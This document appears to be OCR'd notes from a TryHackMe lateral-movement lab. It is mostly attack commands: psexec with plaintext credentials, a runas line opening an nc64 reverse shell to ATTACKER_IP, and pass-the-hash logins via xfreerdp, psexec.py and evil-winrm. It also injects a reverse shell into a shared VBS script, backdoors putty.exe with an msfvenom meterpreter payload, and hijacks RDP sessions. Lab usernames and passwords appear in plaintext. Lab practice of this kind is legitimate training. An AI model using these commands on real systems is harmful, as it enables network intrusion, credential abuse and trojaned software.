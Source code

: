 ```
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

```
rachael.atkinson
Zjqf3489

```

```
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"

```



Connect to RDP using PtH:

```
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
```


Connect via psexec using PtH:
```
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
```

Connect to WinRM using PtH:
```
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
```

# Backdooring .vbs Scripts
As an example, if the shared resource is a VBS script, we can put a copy of nc64.exe on the same share and inject the following code in the shared script:

```
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```

# Backdooring .exe Files
If the shared file is a Windows binary, say putty.exe, you can download it from the share and use msfvenom to inject a backdoor into it. The binary will still work as usual but execute an additional payload silently. To create a backdoored putty.exe, we can use the following command:
```
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

# RDP Hijacking

List existing sessions:
```
query user
```

Connect to an existing RDP session:
```
tscon 3 /dest:rdp-tcp#6
```

Gain SYSTEM with administrator level access:
```
PsExec64.exe -s cmd.exe
```

xfreerdp /v:thmjmp2.za.tryhackme.com /u:t2_jessica.richards /p:o6R9PfosU